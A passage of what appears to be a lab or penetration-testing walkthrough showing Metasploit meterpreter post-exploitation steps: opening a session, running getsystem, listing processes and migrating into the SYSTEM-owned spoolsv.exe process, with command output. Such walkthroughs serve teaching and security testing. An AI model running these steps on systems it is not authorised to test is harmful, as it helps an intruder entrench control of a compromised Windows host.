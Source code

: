 ```bash
sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```
{% endraw %}

<br />
Run the getsystem command to ensure that we are running as SYSTEM.

{% raw %}
```bash
meterpreter > getsystem
[-] Already running as SYSTEM
```
{% endraw %}

<br />
Just because the user is SYsTEM, does not mean that the process we are running as is.  So, run the ps command to get a list of running processes.

{% raw %}
```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]

<snip>

 1288  700   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe

 <snip>

 meterpreter >
```
{% endraw %}

<br />
Choose a process that is running as NT AUTHORITY\SYSTEM.  Migrate to this process using the PID.  If this doesn't work, reboot the machine and start over...again.

{% raw %}
```bash
meterpreter > migrate 1288
[*] Migrating from 1840 to 1288...
[*] Migration completed successfully.
```
{% endraw %}
